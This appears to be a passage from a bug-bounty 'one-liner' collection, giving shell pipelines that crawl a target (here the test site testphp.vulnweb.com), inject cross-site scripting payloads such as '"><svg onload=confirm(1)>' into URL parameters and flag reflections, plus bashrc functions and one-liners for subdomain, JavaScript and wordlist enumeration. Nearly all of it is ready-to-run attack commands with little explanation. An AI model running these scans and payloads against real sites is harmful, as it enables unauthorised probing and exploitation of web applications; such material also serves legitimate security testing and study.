 ### Hakrawler Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```


###  Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```


###  FREQ XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```


###  Bhedak
- [Explained command]
```bash
cat urls | bhedak "\"><svg/onload=alert(1)>*'/---+{{7*7}}"
```

###  .bashrc shortcut OFJAAAH

```bash
reconjs(){
gau -subs $1 |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt ; cat js.txt | anti-burl | awk '{print $4}' | sort -u >> AliveJs.txt
}
cert(){
curl -s "[https://crt.sh/?q=%.$1&output=json](https://crt.sh/?q=%25.$1&output=json)" | jq -r '.[].name_value' | sed 's/\*\.//g' | anew
}
anubis(){
curl -s "[https://jldc.me/anubis/subdomains/$1](https://jldc.me/anubis/subdomains/$1)" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
}
```

###  Oneliner Haklistgen
- @hakluke

```bash
subfinder -silent -d domain | anew subdomains.txt | httpx -silent | anew urls.txt | hakrawler | anew endpoints.txt | while read url; do curl $url --insecure | haklistgen | anew wordlist.txt; done
cat subdomains.txt urls.txt endpoints.txt | haklistgen | anew wordlist.txt;
```
